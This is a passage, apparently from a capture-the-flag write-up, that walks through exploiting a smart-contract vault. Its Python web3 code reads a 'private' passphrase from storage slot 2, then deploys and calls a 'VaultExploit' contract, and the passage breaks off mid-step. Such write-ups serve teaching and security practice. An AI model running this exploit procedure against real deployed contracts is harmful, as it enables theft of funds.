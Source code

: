 ````markdown
VAULT_ADDRESS = conn_info['TargetAddress']
```

### Step 2: Read the Passphrase from Storage

Even though it's "private", we can read it directly:

```python
passphrase = w3.eth.get_storage_at(VAULT_ADDRESS, 2)
```

This reads storage slot 2 which contains the passphrase bytes32 value.

### Step 3: Compile and Deploy Exploit Contract

```python
compiled_sol = compile_source(exploit_source, output_values=['abi', 'bin'], solc_version='0.8.13')

contract_interface = None
for contract_name, contract_data in compiled_sol.items():
    if 'VaultExploit' in contract_name:
        contract_interface = contract_data
        break

bytecode = contract_interface['bin']
abi = contract_interface['abi']

ExploitContract = w3.eth.contract(abi=abi, bytecode=bytecode)

nonce = w3.eth.get_transaction_count(YOUR_ADDRESS)
transaction = ExploitContract.constructor().build_transaction({
    'from': YOUR_ADDRESS,
    'nonce': nonce,
    'gas': 2000000,
    'gasPrice': w3.eth.gas_price
})

signed_txn = w3.eth.account.sign_transaction(transaction, PRIVATE_KEY)
tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
exploit_address = tx_receipt.contractAddress
```

### Step 4: Execute the Exploit

Call the exploit function with the vault address and passphrase:

```python
exploit_contract = w3.eth.contract(address=exploit_address, abi=abi)

nonce = w3.eth.get_transaction_count(YOUR_ADDRESS)
exploit_txn = exploit_contract.functions.exploit(VAULT_ADDRESS, passphrase).build_transaction({
    'from': YOUR_ADDRESS,
    'nonce': nonce,
    'gas': 500000,
    'gasPrice': w3.eth.gas_price
})

signed_exploit = w3.eth.account.sign_transaction(exploit_txn, PRIVATE_KEY)
exploit_hash = w3.eth.send_raw_transaction(signed_exploit.raw_transaction)
exploit_receipt = w3.eth.wait_for_transaction_receipt(exploit_hash)
```

In this single transaction, our contract:
````